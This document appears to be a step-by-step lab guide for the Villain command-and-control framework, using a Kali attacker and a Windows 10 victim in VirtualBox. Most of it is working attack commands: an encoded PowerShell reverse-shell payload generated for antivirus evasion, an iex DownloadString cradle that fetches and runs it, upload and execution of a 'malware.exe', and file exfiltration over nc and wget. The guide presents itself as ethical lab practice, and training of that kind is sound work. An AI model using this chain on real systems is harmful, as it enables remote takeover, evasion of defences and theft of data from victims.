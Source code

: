 # Simple Villain Framework Lab Guide

A step-by-step lab using **Kali Linux** (attacker) and **Windows 10** (victim) in VirtualBox, from payload gen to file transfers.

---

## 1. VirtualBox VM & Networking Setup

1. **Create VMs** in VirtualBox:

   * **Kali Linux**
   * **Windows 10**
2. **Set both adapters** to an **Internal Network** (or Host-Only) named `LabNet`.
3. **Assign static IPs** on the same `/24` subnet:

   * **Kali** (terminal):

     ```bash
     sudo ip addr add 192.168.56.10/24 dev eth0
     sudo ip link set eth0 up
     ```
   * **Windows 10** (Control Panel → Network Adapter → IPv4 settings):

     ```text
     IP address:    192.168.56.20
     Subnet mask:   255.255.255.0
     Gateway/DNS:   (leave blank)
     ```
4. **Verify connectivity**:

   ```bash
   # On Kali
   ping 192.168.56.20
   ```

   You should see replies.

---

## 2. Prepare Kali Attacker

1. **Update & upgrade**:

   ```bash
   sudo apt update && sudo apt upgrade -y
   ```
2. **Clone Villain**:

   ```bash
   git clone https://github.com/keralahacker/Villain.git
   cd Villain
   ```

   > If GitHub is blocked (e.g. college Wi‑Fi), use a VPN or your phone’s hotspot.
3. **(Optional) Install Python deps**:

   ```bash
   pip install -r requirements.txt
   ```

   If it fails, skip to next step.
4. **Start Villain**:

   ```bash
   python3 Villain.py
   ```

   You’ll see the `villain>` prompt.

---

## 3. Build & Deliver Your Payload

### 3.1 Generate the reverse shell

```
villain> generate payload=<OS/handler/template> lhost=<YOUR_IP_or_interface> [encode|obfuscate]
```

| Element       | Meaning                      | Example                   |
| ------------- | ---------------------------- | ------------------------- |
| `OS`          | Target OS family             | `windows`                 |
| `handler`     | Connection type              | `reverse_tcp` (stable)    |
| `template`    | Payload script               | `powershell`              |
| `lhost`       | Your Kali IP or interface    | `192.168.56.10` or `eth0` |
| `[encode]`    | Simple Base64-style encoding | optional (helps evade AV) |
| `[obfuscate]` | String-twisting for stealth  | optional                  |

**Example:**

```bash
villain> generate payload=windows/reverse_tcp/powershell lhost=192.168.56.10 encode
```

This writes `payload.ps1` for the Windows VM.

### 3.2 Host & run the payload

1. **On Kali**, serve it over HTTP:

   ```bash
   cp Core/payloads/windows/reverse_tcp/powershell.ps1 ~/payload.ps1
   cd ~
   python3 -m http.server 8000
   ```
2. **On Windows 10** (PowerShell as Admin):

   ```powershell
   iex (New-Object Net.WebClient).DownloadString('http://192.168.56.10:8000/payload.ps1')
   ```

   This runs the reverse shell back to Kali.

---

## 4. Catch & Use Your Shell

1. **List sessions**:

   ```bash
   villain> sessions
   ```
2. **Enter the shell**:

   ```bash
   villain> shell <SESSION_ID>
   ```

   You get a `PS C:\>` prompt. Use `exit` or Ctrl+C to return.

---

## 5. Uploading Files to the Victim

```
villain> upload <local_path_on_kali> <remote_path_on_windows>
```

* **Example:**

  ```bash
  villain> upload /home/kali/tools/malware.exe C:\Users\Public\malware.exe
  ```
* Then inside your shell:

  ```powershell
  PS C:\> & 'C:\Users\Public\malware.exe'
  ```

---

## 6. Downloading Files from the Victim

Villain has no built-in “download,” but you can exfiltrate:

1. **On Kali**, listen:

   ```bash
   nc -lvp 9001 > secret.txt
   ```
2. **In Windows shell:**

   ```powershell
   PS C:\> nc 192.168.56.10 9001 < C:\Users\Public\secret.txt
   ```

Alternatively, spin up an HTTP server on Windows:

```powershell
PS C:\Users\Public> python3 -m http.server 8000
```

Then on Kali:

```bash
wget http://192.168.56.20:8000/secret.txt -O secret.txt
```

---

## 7. Cleaning Up & Tips

* **flee**: Exit without killing sessions:

  ```bash
  villain> flee
  ```
* **purge**: Wipe saved implant metadata:

  ```bash
  villain> purge
  ```

**Pro Tips:**

* Verify your **lhost** and subnet before generating.
* Use `backdoors` to list re-usable payloads.
* Keep Kali’s firewall off on the lab network.

---

## 8. Broadcast Messages with `#`

You can send a chat message to all connected sibling servers by prefixing with `#`:

```bash
villain> # Hey team, switch to backup C2 channel
```

---

That’s the full lab: network setup, payload gen, shell, file IO, and messaging. Enjoy your ethical testing!
